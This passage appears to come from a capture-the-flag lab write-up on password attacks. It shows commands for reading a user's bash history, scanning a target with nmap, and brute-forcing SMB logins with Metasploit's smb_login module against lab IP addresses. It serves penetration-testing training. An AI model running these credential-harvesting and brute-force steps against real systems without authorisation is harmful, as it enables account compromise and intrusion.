 
`cat ~/.bash_history`

<figure><img src=".gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

### PW Attacks lab - MEDIUM

**Examine the second target and submit the contents of flag.txt in /root/ as the answer.**

`nmap -sVC 10.129.202.221`

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* SSH, SMB

METASPLOIT

`msfconsole -q`

`use auxiliary/scanner/smb/smb_login`

`options`

`set user_file username.list`

`set pass_file password.list`

`set rhosts 10.129.238.248`

`run`
